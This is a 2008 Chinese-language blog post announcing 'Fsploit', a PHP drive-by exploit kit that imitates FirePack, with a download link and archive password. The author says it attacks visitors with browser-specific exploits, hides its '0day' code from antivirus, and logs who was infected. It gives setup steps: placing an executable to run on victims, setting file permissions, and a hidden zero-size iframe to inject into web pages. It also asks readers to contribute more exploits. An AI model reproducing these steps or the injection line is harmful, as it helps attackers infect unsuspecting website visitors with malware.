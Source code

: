 ```yaml
---
title: Fsploit - 仿FirePack网马管理系统
description: 实际上这种智慧型网马会因应不同浏览器产生不同的漏洞做攻击，而且在加载之后会进行记录和统计分析大体上IEFirefoxOpera都能感染我模仿FirePack系统程式码(很抱歉我不是在使用简体中文的环境里所以不是做简中的介面)并将网马0day原始码部分加密
date: 2008-02-28 08:41:07
category: 安全工具
tags: ['木马', '网马', 'PHP', '浏览器']
post_id: 385
alias: f3v3r-fsploit-as-FirePack
ViewNums: 4602
---
```


来源：LiFediy's blog

by:f3v3r

关于FirePack请参见PandaLabs在今年情人节的文章
[http://pandalabs.pandasecurity.com/archive/FirePack-for-the-winter.aspx](http://pandalabs.pandasecurity.com/archive/FirePack-for-the-winter.aspx "http://pandalabs.pandasecurity.com/archive/FirePack-for-the-winter.aspx")
尽管你可能看过或用过IcePack或是MPack之类的系统

不过文章提到这版本的价钱一定让你大开眼界it is really expensive compared to other kits: 3000$,将近三千元美金的高价(MPack一千元)

实际上这种智慧型网马会因应不同[浏览器](/tags/%E6%B5%8F%E8%A7%88%E5%99%A8)产生不同的[漏洞](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF)做攻击，而且在加载之后会进行记录和统计分析大体上IE Firefox Opera都能感染

我模仿FirePack系统程式码(很抱歉我不是在使用简体中文的环境里所以不是做简中的介面)并将网马[0day](/tags/0day)原始码部分加密

可运行通过我自己的[卡巴斯基](/tags/%E5%8D%A1%E5%B7%B4%E6%96%AF%E5%9F%BAKaspersky)网路安全套装软体(因为在某些[exploit](/tags/exploit)原始码的部分有加注打论顺序)

本系统无须配置SQL资料库，纯粹使用PHP环境即可运行

大略解释下安装流程

1.先编辑config.php内容达到你要的配置，并将档案上传到网页伺服器里，要远端执行的档案放在/load/file.exe另外ref.db要CHMOD 777
2.浏览 http://xxx/fsploit/admin/  输入帐号密码进入管理介面(附图如下)
3.使用一般挂马语法挂马
```html
<iframe src=http://xxx/fsploit/index.php width=0 height=0></iframe> //挂马的src就是根目录的index.php
```
4.所有的exploit都已经集结完成，会按浏览者的浏览器做出不同攻击
5.坐下来，慢慢等，不用着急，谁几点几分从哪里踩中网马都记得分明
以上写到这里.
这款[php](/tags/PHP)程序中马率或许看起来不高，不过这种机关枪的打法比狙击枪的打法杀的更多,如果你有其他0day愿意分享我可以加到payload里，你有兴趣的话也可以自己试试看.
档案解压缩密码: f3v3r
MD5 : f82e789df8c4bccfb42b8f3276cf80c1
[![](http://pic.yupoo.com/sunlei/75380528a260/700sn5wq.jpg)](http://pic.yupoo.com/sunlei/75380528a260/700sn5wq.jpg)

[下载](/tags/%E4%B8%8B%E8%BD%BDDownload)地址：[fsploit.rar](/blog/download.asp?id=53

